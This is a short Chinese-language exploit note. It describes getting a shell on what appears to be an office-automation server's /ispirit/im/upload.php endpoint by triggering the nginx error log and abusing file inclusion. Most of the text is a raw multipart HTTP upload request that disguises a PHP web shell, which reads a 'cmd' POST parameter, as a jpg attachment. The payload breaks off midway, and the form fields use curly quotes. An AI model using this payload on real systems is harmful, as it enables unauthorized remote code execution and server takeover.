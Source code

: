 此处文件包含的另外一个利用，直接触发nginx的错误日志，利用文件包含直接getshell

![image](../img/f096b1ff4c7208f6626cbd5f2c077bd4.png)

### 请求包

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 10.10.20.116:88
Content-Length: 658
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close

------WebKitFormBoundarypyfBh1YB4pV8McGB

Content-Disposition: form-data; name=“UPLOAD_MODE”

2

------WebKitFormBoundarypyfBh1YB4pV8McGB

Content-Disposition: form-data; name=“P”

123

------WebKitFormBoundarypyfBh1YB4pV8McGB

Content-Disposition: form-data; name=“DEST_UID”

1

------WebKitFormBoundarypyfBh1YB4pV8McGB

Content-Disposition: form-data; name=“ATTACHMENT”; filename=“jpg”

Content-Type: image/jpeg `<?php

$command=$_POST[‘cmd’];

```